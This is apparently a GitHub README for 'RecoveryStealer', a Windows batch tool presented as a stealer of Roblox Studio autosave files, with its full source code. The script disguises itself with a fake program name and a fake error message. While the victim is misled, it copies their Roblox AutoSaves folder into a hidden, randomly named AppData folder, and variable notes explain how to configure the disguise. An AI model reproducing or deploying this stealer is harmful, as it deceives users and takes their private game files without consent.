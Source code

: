 # RecoveryStealer
Roblox Studio Files Recovery Stealer.

Author: BonnieRBLX (.bxnnie)

WARNING: RecoveryStealer does not supports cyrillic usernames. Will be fixed soon.
## Requirements 
Windows 10 or higher 
### Source
```batch
@echo off color 0c title %fakename% echo %errorstr% cd %AppData% md AutoSaves%rn% xcopy C:\Users\%user%\Documents\ROBLOX\AutoSaves %AppData%\AutoSaves%rn% timeout /t 2 /nobreak >nul
```
> fakename: variable which is displays program name.
> 
> errorstr: variable which is displays error string.
> 
> rn: random number.
> 
> user: User's name.
> 

